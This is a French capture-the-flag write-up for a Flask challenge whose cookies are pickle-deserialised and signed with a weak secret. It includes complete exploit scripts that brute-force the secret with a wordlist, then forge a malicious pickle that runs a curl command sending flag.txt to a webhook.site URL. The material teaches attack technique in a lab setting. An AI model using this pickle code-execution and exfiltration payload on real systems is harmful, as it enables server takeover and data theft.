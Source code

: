 
# pas un bon nom

> On a trouvé le blog personnel d'un membre de l'organisation, On sait qu'il cache des infos intéressantes dans un dossier flag.txt mais on a pas réussi à accéder au fichier, on nous a dit qu'il adore les cookies typiques de Lurenberg !


## Reconnaissance

En se connectant au challenge, on tombe sur cette page nous demandant de nous identifier :

![](../images/home.jpg)

Après avoir rafraichis la page une fois, nous arrivons sur la page d'accueil.

![](../images/logged.png)

Par chance nous avons accès au code source, ce qui nous donne de précieuses indications de où commencer à chercher.

```python
from flask import Flask, request, make_response, render_template, send_from_directory
import hashlib
import base64
import pickle
import os
from dotenv import load_dotenv

load_dotenv()

app = Flask(__name__)
SECRET_KEY = os.environ.get('SECRET_KEY')

def sign_data(data):
    return hashlib.sha256((data + SECRET_KEY).encode()).hexdigest()

def serialize_data(data):
    return base64.b64encode(pickle.dumps(data)).decode()

def deserialize_data(data):
    return pickle.loads(base64.b64decode(data))

@app.route('/public/<path:path>')
def send_report(path):
    return send_from_directory('public', path)

@app.route('/')
def index():
    try:
        signed_cookie = request.cookies.get('signed_cookie')
        
        if signed_cookie:
            cookie_data, signature = signed_cookie.split('.')
            if hashlib.sha256((cookie_data + SECRET_KEY).encode()).hexdigest() == signature:
                result = deserialize_data(cookie_data)
                return render_template('success.html', result=result)
            else:
                return render_template('error.html', message="Signature invalide!"), 403
        else:
            initial_data = "You're either with us or against us"
            serialized_data = serialize_data(initial_data)
            signed_data = sign_data(serialized_data)
            signed_cookie_value = f"{serialized_data}.{signed_data}"
            response = make_response(render_template('welcome.html'))
            response.set_cookie('signed_cookie', signed_cookie_value)
            return response
    except Exception as e:
        return render_template('error.html', message=str(e)), 500

@app.errorhandler(404)
def page_not_found(e):
    return render_template('error.html', message="Page non trouvée!"), 404

@app.errorhandler(500)
def internal_server_error(e):
    return render_template('error.html', message="Erreur interne du serveur!"), 500

@app.errorhandler(Exception)
def handle_exception(e):
    return render_template('error.html', message="Une erreur est survenue!"), 500

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

On a ici quelques passages très intéressants.

L'utilisation de pickle, qui rend notre code vulnérable à l'exécution de code côté serveur au moment de la désérialisation.

```python
import pickle
```

On peut voir ici la logique de signature, sérialisation et désérialisation du cookie utilisateur. 

```python
def sign_data(data):
    return hashlib.sha256((data + SECRET_KEY).encode()).hexdigest()

def serialize_data(data):
    return base64.b64encode(pickle.dumps(data)).decode()

def deserialize_data(data):
    return pickle.loads(base64.b64decode(data))
```

Ainsi que le mécanisme de vérification de la signature du cookie.

```python
@app.route('/')
def index():
    try:
        signed_cookie = request.cookies.get('signed_cookie')
        
        if signed_cookie:
            cookie_data, signature = signed_cookie.split('.')
            if hashlib.sha256((cookie_data + SECRET_KEY).encode()).hexdigest() == signature:
                result = deserialize_data(cookie_data)
                return render_template('success.html', result=result)
            else:
                return render_template('error.html', message="Signature invalide!"), 403
        else:
            initial_data = "You're either with us or against us"
            serialized_data = serialize_data(initial_data)
            signed_data = sign_data(serialized_data)
            signed_cookie_value = f"{serialized_data}.{signed_data}"
            response = make_response(render_template('welcome.html'))
            response.set_cookie('signed_cookie', signed_cookie_value)
            return response
    except Exception as e:
        return render_template('error.html', message=str(e)), 500
```

On apprend alors :
	- Le cookie est désérialisé avec Pickle
	- La signature est la concaténation hashé en SHA256 de la donnée initiale + un secret

Partant de là on peut alors construire un script d'exploitation.

## Exploitation + Exfiltration

On peut construire un petit script d'exploitation pour essayer de chainer les vulnérabilité et extraire le flag.

Dans un premier temps, on va essayer de retrouver le secret utilisé pour signer les cookies.

```python
import requests
import hashlib
import base64
import pickle
import os
  
TARGET =  'http://127.0.0.1:5000/'
WORDLIST_PATH =  './rockyou-75.txt'

def  bruteforce_secret():
	initial_cookie = requests.get(TARGET).cookies
	signed_cookie = initial_cookie.get('signed_cookie')
	initial_data, initial_signature = signed_cookie.split('.')
  

	with  open(WORDLIST_PATH, 'r', encoding='latin-1') as f:
		wordlist = f.read().splitlines()
  
	for password in wordlist:
		signature = hashlib.sha256((initial_data + password).encode()).hexdigest()
		if signature == initial_signature:
			print("Secret key found:", password)
			return password
		print("Trying:", password)
	print("No secret key in the wordlist.")
	return  None  
  
def  main():
	secret = bruteforce_secret()
  
if  __name__  ==  '__main__':
	main()
```

Ce script récupère le cookie du challenge pour tenter de le bruteforce en local. On utilise ici la wordlist rockyou-75.txt

On exécute on retrouve bien le secret.

![](../images/secret.png)

Maintenant, il ne nous reste plus qu'à forger une requête qui renvoie le contenu de flag.txt vers un webhook et le tour est joué !

```python
import requests
import hashlib
import base64
import pickle
import os
  
TARGET =  'http://127.0.0.1:5000/'
WEBHOOK_URL =  'https://webhook.site/unique-id'
WORDLIST_PATH =  './rockyou-75.txt'  

class  Malicious:
	def  __reduce__(self):
		# Send flag to webhook
		command =  f'curl {WEBHOOK_URL} --data-urlencode "flag=`cat flag.txt`"'
		return (os.system, (command,))
  
def  serialize_data(data):
	return base64.b64encode(pickle.dumps(data)).decode()
  
def  bruteforce_secret():
	initial_cookie = requests.get(TARGET).cookies
	signed_cookie = initial_cookie.get('signed_cookie')
	initial_data, initial_signature = signed_cookie.split('.')  

	with  open(WORDLIST_PATH, 'r', encoding='latin-1') as f:
		wordlist = f.read().splitlines()
  
	for password in wordlist:
		signature = hashlib.sha256((initial_data + password).encode()).hexdigest()
		if signature == initial_signature:
			print("Secret key found:", password)
			return password
		print("Trying:", password)
	print("No secret key in the wordlist.")
	return  None  
  
def  final_malicious_cookie(secret):
	#forging cookie
	malicious_obj = Malicious()
	serialized_data = serialize_data(malicious_obj)
	signature = hashlib.sha256((serialized_data + secret).encode()).hexdigest()
	return  f"{serialized_data}.{signature}"
  
def  send_malicious_cookie(signed_cookie):
	#send payload to app
	cookies = {'signed_cookie': signed_cookie}
	response = requests.get(TARGET, cookies=cookies)
	return response.text
  
def  main():
	secret = bruteforce_secret()
	if secret:
		signed_cookie = final_malicious_cookie(secret)
		result = send_malicious_cookie(signed_cookie)
		print("Server response:", result)
  
if  __name__  ==  '__main__':
	main()
```

On récupère alors le flag directement dans notre webhook : 

![](../images/flag.png)

```ECTF{Why_4r3_w3_us1ng_cust0m_s4n1t1z4t10n?}```
